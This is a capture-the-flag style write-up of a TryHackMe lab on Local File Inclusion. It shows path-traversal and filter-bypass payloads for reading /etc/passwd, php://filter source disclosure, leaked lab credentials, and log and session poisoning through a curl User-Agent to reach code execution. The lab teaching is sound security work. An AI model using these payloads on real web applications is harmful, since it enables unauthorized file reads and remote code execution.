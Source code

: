 **Web Exploitation: Patch Management is Hard**

Author: Corbett Stephens
Date: 12/06/2021

Objective:
Exploring the basics of Local File Inclusion (LFI) and how to identify and test for LFI.

The url `http://10.10.86.193/index.php?err=error.txt` can be used as `http://10.10.86.193/index.php?err=<payload>` to try and find a LFI. This means that the entry point will be the 'err=' parameter. An example would be `http://10.10.86.193/index.php?err=/etc/passwd` which prints out:

![](./pictures/passwd.png)

Several other methods could be used to produce the same affect such as using '..' to get out of the current directory. The number times '..' will need to be applied is dependent on the file system structure. Filters can be by passed by using '....//'. URL encoding techniques can also be used.

TryHackMe provides these examples:
<pre>
http://example.thm.labs/page.php?file=/etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
</pre>

For find the flag at '/etc/flag', I was already using the LFI method to get out of the directory. Initially, I did not find a proper response, but the web application gave me an error message saying 'failed to open stream: No such file or directory in
/var/www/html/index.php'. I could see that index.php is three layers deep into sub directories, so I changed my payload to `../../../etc/flag`. By doing this, the flag was printed to the screen. Just using 
`/etc/flag` as the payload has the same affect.

**Exploiting LFI**

When dealing with a PHP web application, the PHP-supported Wrappers can be useful in exploiting LFI. PHP filter can be used to display the content of PHP files in other encoding formats such as base64. By changing the payload to 'php://filter/convert.base64-encode/resource=index.php' the source code of index.php will be written to the screen in base64. The text can then be decoded from base64 where it can be easily readable. Encoding the web app response is important, otherwise, an error will be received in which the web server is trying to execute the the PHP code. 

![](./pictures/decoded.png)

Next, the LFI vulnerability will be used to achieve Remote Code Execution (RCE) via Log files (log poisoning). 

The PHP code of index.php has an include of './includes/creds.php'. By using the same method of retrieving the index.php code, the creds.php information can be written to the screen as well. './includes/creds.php'

![](./pictures/creds.png)


Username: `McSkidy`
password: `A0C315Aw3s0m`

After logging in with these credentials, the log files can be found under the log access link. It can be observed that the logs are in the format `user:ip:USER-Agent:Page`

Since the 'USER-Agent' field is the only header that a user can control, then PHP code can be added to get RCE. 

For a POC, `curl -A "This is testing" http://10-10-248-85.p.thmlabs.com/login.php`can be used to check if this idea hold true. Within the log files, it can be observed that changing the USER-Agent will be helpful.

![](./pictures/poc.png)

By using `curl -A "<?php phpinfo();?>" http://10-10-248-85.p.thmlabs.com/login.php` the PHP code will be added to the log file. Using what I learned earlier, if a resource is invoked with PHP code without being encoded, then the web server will try to execute the PHP code. If I use the LFI vulnerability to try to access the logs at `./includes/logs/app_access.log`, then the PHP code that was added in the USER-Agent header of the curl command, should be executed. 

![](./pictures/info.png)

Here we can see that the host name of the web server is `Linux lfi-aoc-awesome-59aedca683fff9261263bb084880c965` and that the PHP version it is running is 5.2.17.

By looking at the PHP variables section, it can be observed that requests are saved under `/tmp/sess_COOKIES`. If the the PHP code is injected into the username, it will be stored into the PHP session file. By using the previous methods of invoking code execution the following URL request can be made
`https://10-10-248-85.p.thmlabs.com/login.php?err=/tmp/sess_4vpuj918nrcsricq46h5qbf5k1`

Once again, the system information will be readable from the web server response.







